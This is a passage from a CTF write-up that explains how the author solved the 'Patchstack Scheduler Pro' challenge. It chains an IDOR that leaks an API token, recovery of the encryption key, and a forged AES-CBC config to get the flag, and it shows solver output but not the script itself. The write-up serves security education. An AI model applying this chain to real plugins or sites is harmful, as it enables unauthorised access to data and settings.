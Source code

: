 ## Exploitation

To get the flag, we need to:
1. Get the API token via AJAX action that is vulnerable to IDOR
2. Leak the encryption key via bypassing the validations
3. Forge our own encrypted config
4. Get the flag via AJAX action `patchstack_scheduler_settings` with the forged config

To automate the above steps, I've written the following solve PHP script:

<details><summary><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|21:48:43(HKT)]
└> php solve.php
[*] Getting the API token...
[+] API token: X1xyWiJlgs0uCvEyRwGfNLrTlpFas3mS
[*] Encrypted config:
MWEwNDY1YWQtMTFkMy00NG3dDSyMtvZuU+aUR3m+mhbmL97Xms5PKdE68WEwW3Qm54qJ9mGDY4Ar39kDk23WXzu5T7MZ/RKX2bdbRO7jcbp1ALhvPEpVM2LAM0a6y+cnM7bok0/lA2APiaurEdz4eH6xddsf6RQ/AeO9QNCZI/1iQC1rpGJyA40KmhIwl6Vg
[*] Decrypted config:
Array
(
    [status] => draft
    [permissions] => Array
        (
            [view] => 1
            [edit] => 
        )

    [encryption_key] => 1a0465ad-11d3-440c-9b80-42d429652c9c
)
[*] Forged encrypted config:
MWEwNDY1YWQtMTFkMy00NBNIFjAu66sd6Nnz83BhD+1Jpn18yM/ym6Szov5d8MU2XUbu+dvlmap+PuHPfiDhXyqtUuJL55byn0tM+OX+M43UVWSi3c06YVe3g5qVVs5ajv+LPOWaddqVJHtyvbLDwU9JApfPhg++Y+F/G/UpjSSRtBnt0cwv2G1jg5Xv2Xg2
[+] Flag: CTF{crypt0_aint_crypt0ing_patchstack2o25}
```

- **Flag: `CTF{crypt0_aint_crypt0ing_patchstack2o25}`**

## Conclusion

What we've learned:

1. IDOR to read arbitrary posts
2. Decrypt AES CBC mode encrypted data using 16 characters partial key